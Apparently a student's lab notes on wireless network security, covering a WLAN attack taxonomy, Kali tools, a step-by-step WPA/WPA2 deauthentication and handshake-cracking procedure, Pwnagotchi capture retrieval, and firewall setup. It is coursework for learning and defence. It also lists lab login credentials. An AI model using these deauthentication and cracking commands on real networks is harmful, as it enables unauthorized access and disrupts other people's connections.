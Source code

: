 # Lab 01 - Wireless and Mobile Networks

- Interrupt connection between access point and mobile device, capture reconnect to crack password
- Used captured network traffic from Riccarton Mall and crack authentication dialogues

## WLAN Attack Taxonomy

Passive attacks:

- Traffic analysis
  - Packet size, type, fragmentation info etc.
  - APs periodically send out beacon frames
- Eavesdropping
  - Requires wireless cards with passive packet sniffing (and active packet injection for active attacks)

Active attacks:
- Unauthorized access
  - Masquerade as a legitimate user
  - Access to wireless components may give access to wired components
- Rogue access points (Evil-Twin attack)
  - Interrupt connection, then device automatically reconnects to strongest matching AP
- Man-in-the-middle attacks
  - ARP spoofing - spoof MAC of access point and victim to force all traffic to pass through attacker
- Session hijacking
  - Spoof MAC and force disconnect - in some architectures re-authentication not required
- Replay
  - Capture authentication packets, replay then later
- Denial of Service
  - Attacks against layer 1 (physical) or 2 (data link) cannot be stopped
  - NZ stock exchange attack: attacked DNS server

PSK (pre-shared key) used in labs: each node has string/passphrase that is combined with network SSID to generate unique encryption key for each client and session.

## Tools

Several tools available pre-installed in Kali-Linux

- `airmon-ng`: set wireless adapter to monitor mode to sniff packets meant for other devices
- `kismet`: wireless network detector, packet sniffer
- `iwconfig`: check wireless adapter is in monitor mode
- `airodump-ng`: capture packets and display access point properties (ethernet address, channel number, speed, etc.)
- `aireplay-ng`: issue deauthentication packets and capture the automatic reconnection dialogue
- `aircrack-ng`: decrypting keys captured by `aireplay-ng`
- `airbase-ng`: establishing access point for evil-twin attack
- `macchanger`: view/spoof MAC address

('ng' stands for 'next generation' - basically version 2)

Login:

- `cyberlab`: `$CyberLab!`
- `root`: `toor`

## WPA/WPA2 Password Cracking

- Kill DHCP server: `ps-eaf | grep dhc` then `kill -9 {process_id}`
- `iwconfig` to find interface name
- `airodump-ng {wireless_interface}`; scan for networks, determine channel number and MAC address (BSSID - *b*asic **s**ervice **s**et **id**entifier) of target AP
- `airmon-ng stop {wireless_interface}`
- `airmon-ng start {wireless_interface} {channel_number}` to enable monitor mode for a specific channel
- `iwconfig` to find the new monitoring network interface's name
- `airodump-ng -c {ap_channel} --bssid {ap_mac} -w {capture_file_path} {wireless_interface}`
  - Continue running the command
  - `BSSID` is the AP MAC, `STATION` is the victim's MAC
- `aireplay-ng -0 1 -a {ap_mac} -c {vicim_mac} {wireless_interface}`
  - Send 1 de-authentication packet (`-0 1` is short for `--deauth=1`)
    - The device will then automatically reconnect. `airodump-ng` will be able to capture the four-way handshake
      - PSK (pre-shared key) derived from passphrase. Both parties need to prove they hold the key without sending it over the wire
- (Optional) To see it working, go to Wireshark, select correct interface (Capture -> Options), filter using `eapol` (extensible authentication protocol over link layer)
- `aircrack-ng -w {path_to_dictionary} -b {victim_mac} {capture_file_path}`
  - Unzip gzip files: `gunzip {path}`
  - Cracks captured password

### Pwnagotchi

- Connect via USB
- `ifconfig -a`: ensure usb0 is being used as networking device
- `ifconfig usb0 10.0.0.1/24`: set IP of device
- `scp -r pi@10.0.0.2:/root/handshakes ~/handshakes`: copy files from Pwnagotchi to computer
  - Pwnagotchi contains PCAP files with format `{SSID name}_{BSSID}.pcap`

## Enterprise Security

- External interface: network that presents the security threat
- Trusted interface: private LAN/internal interface
- Optional interface: DMZ/mixed trust area. APs go here

Watchguard:

- All-in-one firewall + switch + wireless AP
- IP address of the Watchguard device: default gateway
- Add HTTP packet filter
  - Basically port filter: only allows tcp traffic in port 80
  - HTTP proxy allows packet contents to be inspected
  - Allow traffic From Any-Optional To Any-Trusted
    - *Initial* connection must be from outside to inside
- Set up wireless interface
  - Note IP and CIDR of interface 2
  - Create new bridge with IP and CIDR from above, optional security zone and DHCP enabled
  - Set interface 2 to bridge type, set bridge to the one made above
  - Enable wireless AP in bridge mode (using bridge from above)
  - At this point devices should be able to connect to the AP, and the firewall rule allows HTTP traffic from device to server connected to any trusted network
  - WPA2 Enterprise: can either set wireless network to use Firebox DB or RADIUS server (e.g. Active Directory) for authentication

## Write-up

- Explain importance of software security, brief example of experiments done in labs
- Own diagrams - no copying off internet/lab notes, or scans of hand-drawn diagrams
- References to supplement writing
- Observations: potential risks, areas of interest
- Some research and comments
- Target audience: write recommendations as if to a technical but not security focused manager
- ~2000 words
- Describe what **the risks of the insecurities are**
  - Introduction and conclusion alone should give a good overview of problems and recommendations

Structure:

- Title
- Author
- Abstract: purpose and findings
- Introduction:
  - Description of experiments, equipment, tools, techniques
  - Vulnerabilities demonstrated
  - Diagrams of equipment/system
- Experimental results:
  - Explanation of experiments, importance of results
  - A few screenshots and their explanations
  - Relate to cybersecurity disasters
- Conclusions: (in)adequacy of setup results
- Comments on prevalence of security issues in current systems, organizations
- References (optional)

